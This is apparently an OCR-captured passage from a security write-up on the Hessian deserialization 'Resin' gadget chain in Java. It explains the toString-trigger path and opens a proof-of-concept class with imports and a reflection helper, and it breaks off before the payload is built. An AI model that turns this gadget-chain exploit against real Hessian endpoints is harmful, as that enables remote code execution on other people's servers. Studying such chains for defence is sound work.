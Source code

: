  - Follow up on the `UtilFactory#makeToStringTriggerStable` method, continue to call the `ToStringUtil#makeToStringTrigger` method. First call the `unhash` method to calculate `qName.hashCode`, then create an `XString` object, and finally call the `JDKUtil#makeMap` method, the same as the analysis after `RomeGadget`.

```java
default Object makeToStringTriggerStable (Object obj ) throws Exception {
    return ToStringUtil.makeToStringTrigger(obj);
}
```

```java
public static Object makeToStringTrigger (Object o ) throws Exception {
    String unhash = unhash(o.hashCode())
;
    XString xString = new XString(unhash);
    return JDKUtil.makeMap(o, xString);
}
```

### POC

```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import sun.reflect.ReflectionFactory;
import com.caucho.naming.QName;
import javax.naming.CannotProceedException;
import javax.naming.Reference;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Hashtable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 12:40 am
 */
public class ResinGadget {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

```